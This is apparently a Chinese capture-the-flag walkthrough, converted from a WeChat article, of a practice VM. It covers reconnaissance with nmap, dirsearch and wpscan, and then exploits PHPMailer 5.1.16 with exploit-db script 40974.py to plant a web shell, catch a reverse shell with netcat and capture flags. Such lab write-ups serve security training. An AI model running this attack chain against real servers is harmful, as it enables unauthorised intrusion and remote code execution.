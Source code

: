 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tudnrhJRqOn3zRkMSkK-IQ)

0x00 信息收集  

```
nmap -vvv 192.168.43.249/24 
nmap -sC -sV -Pn1-65535 192.168.43.249
dirsearch -u http://192.168.43.249
```

```
其中 http://192.168.43.249/manual/en/index.html 是apache的默认页面
其中 http://192.168.43.249/vendor/ 存在目录文件显示
其中 http://192.168.43.249/wordpress/ 存在wordpress系统（可以使用wpscan）
```

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqyHjNAnUU1hg6EdOGeeJE8pawiadkNEpXgE1C1cclicOTcC6uib2FgbJbow/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqy32nQNytOzq6LFJlvZ1picx1WibEKf80Uh4t0n9ReicFqxSHfIgKia49SXw/640?wx_fmt=png)

```
wpscan --url http://192.168.43.249/wordpress
```

能够扫描到 wordpress 系统版本为: WordPress 4.8.17

apache 版本为 Apache/2.4.10

  
通过 http://192.168.43.249/vendor/PATH 处的目录显示, 能够拿到第一个 flag 和当前文件的绝对路径。

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqyBaTPRDa9oHQLicXuG8M3KiaLjkic4vaVI3S7naLib6WAO34zTNwRTqH7Ew/640?wx_fmt=png)

```
http://192.168.43.249/vendor/README.md处可以看到web系统为PHPMailer 
http://192.168.43.249/vendor/VERSION处可以看到版本为5.1.16
```

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqyM3deLaPTwicNia7c6AKfKyjskBhiaFbbWqyu15va4ibpGSib7LMmE90bhIQ/640?wx_fmt=png)

```
searchsploit PHPMailer
```

可以看到很多关于 PHPMailer 的漏洞，其中包含了当前环境可以使用的命令执行漏洞。  

```
locate php/webapps/40974.py  这个脚本是需要进行修改的
```

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqyaAC1YCktl0F2v8rAuDfflicHtl7N5sD8icSASrSb6SgGia2XiaePWRqz5g/640?wx_fmt=png)

最关键是这里需要修改成从题目环境中取得的绝对路径地址。  
然后运行脚本，再访问即可写入 shell 反弹到 kail 的 nc 上即可拿到 flag2。  

```
Python：

python3 40974.py
nc -lvp 4444
curl http://192.168.43.249/contact.php
curl http://192.168.43.249/shell.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqyGwtWBbiaRVke2yG77ppJMpdH3wnDNdL6ZMXzyaYFVqa1SqIZfCZN5gg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqy0CIuzoc9keIMSc0EKD3zlpNuJuEhEfzR18rguia6jBAJgCE5ZPW7wibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqygkVTovpvNKkibWg7pYgboZRyvj9AAH3DshRickcyZrNiaxOebrtRPZDYw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqyRfIy1LzJfua3o3wkBc1VeVWoKqGGwrTTK0Dp4wHc7BmRUxicDELQXCQ/640?wx_fmt=png)

附件：  

![](https://mmbiz.qpic.cn/mmbiz_png/CwmXBonxXzde6PGZNN7C3icDXtW9fmDqyqB3qnRMVIIwaERbsBopnxUsmSklXnPVSGFel3zOt1iaFibXwIZicUZxLA/640?wx_fmt=png)